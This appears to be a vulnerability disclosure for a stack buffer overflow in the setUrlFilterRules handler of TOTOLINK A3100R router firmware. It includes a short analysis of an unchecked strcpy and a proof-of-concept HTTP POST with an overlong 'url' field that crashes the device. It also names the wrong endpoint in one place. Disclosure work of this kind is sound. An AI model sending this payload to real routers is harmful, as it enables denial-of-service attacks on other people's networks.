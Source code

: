 # firewall.so setUrlFilterRules stack buffer overflow

## A3100R_Firmware	 
version:V4.1.2cu.5050_B20200504，V4.1.2cu.5247_B20211129

## Description:
The setUrlFilterRules function in the firewall.so module does not filter the "url"  parameter, and a stack overflow occurs when strcpy  is performed

## Source:
you may download it from : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html
![](./img/2.png)

## Analyse:
The program reads a user inputed named "url"   in users's POST request and uses the input immediately,without checking it's length ,which can lead to buffer overflows bugs in the following strcpy function.


![](./img/19.png)


So by Posting proper data to topicurl:"setting/setParentalRules",the attacker can easily perform a Deny of service Attack.


## POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 321

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/firewall/url_filtering.asp?timestamp=1650007602442

Cookie: SESSION_ID=2:1588588354:2



{"topicurl":"setting/setUrlFilterRules","url":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","addEffect":"0"}
```

![](./img/21.png)
![](./img/20.png)


